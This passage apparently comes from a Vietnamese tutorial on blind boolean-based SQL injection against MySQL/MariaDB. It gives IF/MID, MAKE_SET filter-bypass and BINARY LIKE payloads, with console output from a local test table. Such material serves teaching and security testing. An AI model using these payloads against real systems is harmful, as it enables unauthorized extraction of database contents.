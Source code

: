 - Đây là code mẫu của mình, tùy vào trường hợp mà chỉnh sửa các thông số. Mình sẽ không giải thích về tool này. Các bạn chịu khó *research* để tìm hiểu

- Sử dụng *IF*

  - Payload: 

    ```mysql
    select * from menu where id = 1 AND IF(MID(@@version,1,1)='1','a','b')='a';
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 AND IF(MID(@@version,1,1)='5','a','b')='a';
    Empty set (0.00 sec)
    
    MariaDB [xssuser]> select * from menu where id = 1 AND IF(MID(@@version,1,1)='1','a','b')='a';
    +----+-----------+
    | ID | NAME_MENU |
    +----+-----------+
    |  1 | Menu 2    |
    +----+-----------+
    1 row in set (0.00 sec)
    ```

    

- Sử dụng *MAKE_SET*

  - Payload: 

    ```mysql
    select * from menu where id = 1 AND MAKE_SET(3<2,32);
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 AND MAKE_SET(31<(SELECT(length(version()))),1);
    +----+-----------+
    | ID | NAME_MENU |
    +----+-----------+
    |  1 | Menu 2    |
    +----+-----------+
    1 row in set (0.00 sec)
    
    MariaDB [xssuser]> select * from menu where id = 1 AND MAKE_SET(33<(SELECT(length(version()))),1);
    Empty set, 5 warnings (0.00 sec)
    ```

  - Thực sự cách dùng *MAKE_SET* chính thức không phải vậy, tuy nhiên cũng coi như 1 *trick* nhỏ để sử dụng đề phòng 1 số hàm để so sánh như *IF* ,.. bị *filter*

- Sử dụng *LIKE*

  - Payload: 

    ```mysql
    select * from menu where id = 1 AND BINARY NAME_MENU LIKE 'M%'
    ```
